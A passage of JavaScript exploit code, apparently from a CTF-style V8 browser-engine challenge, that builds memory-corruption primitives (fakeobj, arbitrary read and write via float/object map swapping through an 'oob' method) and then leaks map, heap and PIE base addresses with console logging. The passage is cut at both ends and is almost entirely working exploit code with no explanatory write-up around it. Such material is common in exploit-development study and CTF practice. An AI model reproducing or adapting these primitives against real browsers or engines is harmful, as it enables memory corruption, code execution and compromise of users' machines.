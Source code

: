```js
    return ftoi(addr);
}

function fakeobj(addr) {
    // First, put the address as a float into index 0 of the float array
    float_arr[0] = itof(addr);

    // Change the float array's map to the obj array's map
    float_arr.oob(obj_arr_map);

    // Get a "fake" object at that memory location and store it
    let fake = float_arr[0];

    // Set the map back
    float_arr.oob(float_arr_map);

    // Return the object
    return fake;
}

// This array is what we will use to write to arbitrary memory addresses
var arb_rw_arr = [float_arr_map, itof(0x0000000200000000n), 1, 0xffffffff];

console.log("[+] Controlled float array: 0x" + addrof(arb_rw_arr).toString(16));

function arb_read(addr) {
    // We have to use tagged pointers, so if the addr isn't tagged, we tag it
    if (addr % 2n == 0)
	addr += 1n;
    
    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);
    arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);
    return ftoi(fake[0]);
}

function initial_arb_write(addr, val) {
    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);
    arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);
    fake[0] = itof(BigInt(val));
}

function arb_write(addr, val) {
    let buf = new ArrayBuffer(8);
    let dataview = new DataView(buf);
    let buf_addr = addrof(buf);
    let backing_store_addr = buf_addr + 0x20n;
    initial_arb_write(backing_store_addr, addr);
    dataview.setBigUint64(0, BigInt(val), true);
}

var test = new Array([1.1, 1.2, 1.3, 1.4]);

var test_addr = addrof(test);
var map_ptr = arb_read(test_addr - 1n);
var map_sec_base = map_ptr - 0x2f79n;
var heap_ptr = arb_read(map_sec_base + 0x18n);
var PIE_leak = arb_read(heap_ptr);
var PIE_base = PIE_leak - 0xd87ea8n;

console.log("[+] test array: 0x" + test_addr.toString(16));
console.log("[+] test array map leak: 0x" + map_ptr.toString(16));
console.log("[+] map section base: 0x" + map_sec_base.toString(16));
console.log("[+] heap leak: 0x" + heap_ptr.toString(16));
```